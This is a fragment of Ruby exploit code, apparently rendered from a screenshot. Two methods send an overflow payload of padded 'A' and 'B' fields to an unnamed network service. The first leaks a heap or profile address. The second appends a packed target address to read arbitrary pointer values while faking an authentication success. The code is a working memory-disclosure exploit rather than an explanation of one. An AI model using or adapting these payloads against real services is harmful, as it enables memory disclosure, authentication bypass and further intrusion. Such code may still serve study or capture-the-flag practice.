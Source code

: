 ```ruby
    end
  end
    
  def extract_address(address_low_six_str)
    (address_low_six_str.bytes + [0, 0]).pack("C*").unpack("Q<").first
  end
    
  def retrieve_profile_address()
    print "[*] Attempting to leak profile address...\n"
    
    exploit = "#{'A'*64}:#{'B'*64}\n"
      
    print "[*] Sending read exploit...\n"
    sock.put exploit
      
    response = sock.gets || ''
      
      
    if response.length != 153
      print "[x] Unexpected response length; profile address may hav null bytes.\n"
      raise 'bulletproof address leak not implemented!'
    end
      
    address = extract_address(response[-7..-2])
    print "[*] Leaked address: 0x#{address.to_s(16)}.\n\n"
      
    return address
  end

  def read_pointer_in(address)
    print "[*] Attempting to read pointer value in 0x#{address.to_s(16)}...\n"
    
    message = "#{'A'*64}:#{'B'*64}#{[address - 8].pack('Q<')}\x0a"
      
    print "[*] Sending read exploit...\n"
    sock.put message
      
    response = sock.gets || ''
    
    if !response.include?("AUTH:SUCCESS;PROFILE_NAME:")
      print "[x] Unexpected response; fake auth failed.\n"
      raise 'fake auth failed; could not read pointer value.'
    end
      
    if response.length != 33
      print "[x] Unexpected response length; address may have null bytes.\n"
      raise 'bulletproof address leak not implemented!'
    end
    
    pointer_value = extract_address(response[-7..-2])
      
    print "[*] Retrieved pointer value: 0x#{pointer_value.to_s(16)}.\n\n"

    sock.send 'QUIT', 0
    response = sock.gets
      
    if !response.include? "BYE"
      print "[x] Unexpected response to QUIT command.\n\n"
      raise 'could not finish session properly'
    end

    return pointer_value
  end
```